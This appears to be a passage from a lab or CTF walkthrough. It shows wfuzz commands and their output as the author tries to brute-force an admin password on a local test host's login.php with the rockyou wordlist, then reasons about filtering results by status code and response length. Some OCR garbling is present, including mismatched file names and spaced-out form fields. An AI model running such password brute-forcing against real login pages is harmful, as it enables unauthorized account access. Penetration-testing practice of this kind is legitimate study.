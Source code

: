 ```
```
However, I am not getting any output.

I did with another dictionary file.
```bash
wfuzz -c -v -w /usr/share/wordlists/wfuzz/others/common_pass.txt -d "username = admin & password = FUZZ" -u http://192.168.56.115/login.php/

************************************************** ******
* Wfuzz 2.4.5 - The Web Fuzzer *
************************************************** ******

Target: http://192.168.56.115/login.php/
Total requests: 52

================================================== ================================================== ==============================================
ID C. Time Response Lines Word Chars Server Redirect
================================================== ================================================== ==============================================

000000001: 0.002s 404 7 L 11 W 154 Ch nginx / 1.15.10
000000002: 0.001s 404 7 L 11 W 154 Ch nginx / 1.15.10
000000003: 0.004s 404 7 L 11 W 154 Ch nginx / 1.15.10
000000004: 0.001s 404 7 L 11 W 154 Ch nginx / 1.15.10
000000005: 0.001s 404 7 L 11 W 154 Ch nginx / 1.15.10

Total time: 0.063478
Processed Requests: 52
Filtered Requests: 0
Requests / sec .: 819.1784
```
Managed to run the script, but brute-force failed, so maybe the point is that wfuzz parse the rockyou.txt list incorrectly? I have created a new file.

```bash
 cat /usr/share/wordlists/rockyou.txt | head -c 100000 >> New_pass.txt

```
I used the wfuzz command

```bash
wfuzz -c -w NowaLista.txt -d "username = admin & password = FUZZ" --hc 302 -u http://192.168.56.115/login.php
```
> --hc is the flag for "hide code". With it, responses that have in the "code" 302 - Our HTTP status are hidden
After launching, brute-forcing occurs, but we are unable to get the password.

By learning more precisely what the HTTP 302 status is, I saw that it only talks about redirection.

So we need another variable. I saw that each request has a character length of 206

![Imgur](https://i.imgur.com/deoWvZQ.png)
